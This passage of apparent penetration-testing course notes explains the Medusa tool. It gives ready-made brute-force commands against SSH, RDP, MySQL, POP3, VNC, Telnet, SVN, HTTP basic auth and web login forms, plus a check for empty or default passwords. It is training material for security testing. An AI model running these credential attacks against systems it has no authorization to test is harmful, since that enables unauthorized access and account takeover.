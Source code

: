 | MySQL            | MySQL Database                   | Brute-forcing MySQL database credentials, commonly used for web applications and databases. | `medusa -M mysql -h 192.168.1.100 -u root -P passwords.txt`                                                                 |
| POP3             | Post Office Protocol 3           | Brute-forcing POP3 logins, typically used to retrieve emails from a mail server.            | `medusa -M pop3 -h mail.example.com -U users.txt -P passwords.txt`                                                          |
| RDP              | Remote Desktop Protocol          | Brute-forcing RDP logins, commonly used for remote desktop access to Windows systems.       | `medusa -M rdp -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| SSHv2            | Secure Shell (SSH)               | Brute-forcing SSH logins, commonly used for secure remote access.                           | `medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt`                                                                   |
| Subversion (SVN) | Version Control System           | Brute-forcing Subversion (SVN) repositories for version control.                            | `medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| Telnet           | Telnet Protocol                  | Brute-forcing Telnet services for remote command execution on older systems.                | `medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt`                                                               |
| VNC              | Virtual Network Computing        | Brute-forcing VNC login credentials for remote desktop access.                              | `medusa -M vnc -h 192.168.1.100 -P passwords.txt`                                                                           |
| Web Form         | Brute-forcing Web Login Forms    | Brute-forcing login forms on websites using HTTP POST requests.                             | `medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"`   |
### Targeting an SSH Server
Imagine a scenario where you need to test the security of an SSH server at `192.168.0.100`. You have a list of potential usernames in `usernames.txt` and common passwords in `passwords.txt`. To launch a brute-force attack against the SSH service on this server, use the following Medusa command:
```bash
medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
```
Instructs Medusa to:
- Target the host at `192.168.0.100`.
- Use the usernames from the `usernames.txt` file.
- Test the passwords listed in the `passwords.txt` file.
- Employ the `ssh` module for the attack.

Medusa will systematically try each username-password combination against the SSH service to attempt to gain unauthorized access.
### Targeting Multiple Web Servers with Basic HTTP Authentication
Suppose you have a list of web servers that use basic HTTP authentication. These servers' addresses are stored in `web_servers.txt`, and you also have lists of common usernames and passwords in `usernames.txt` and `passwords.txt`, respectively. To test these servers concurrently, execute:
```bash
medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET 
```
Medusa will:
- Iterate through the list of web servers in `web_servers.txt`.
- Use the usernames and passwords provided.
- Employ the `http` module with the `GET` method to attempt logins.

By running multiple threads, Medusa efficiently checks each server for weak credentials.
### Testing for Empty or Default Passwords
If you want to assess whether any accounts on a specific host (`10.0.0.5`) have empty or default passwords (where the password matches the username), you can use:
```bash
Kolbesmith24@htb[/htb]$ medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name
```
Instructs Medusa to:
- Target the host at `10.0.0.5`.
- Use the usernames from `usernames.txt`.
- Perform additional checks for empty passwords (`-e n`) and passwords matching the username (`-e s`).
- Use the appropriate service module (replace `service_name` with the correct module name).
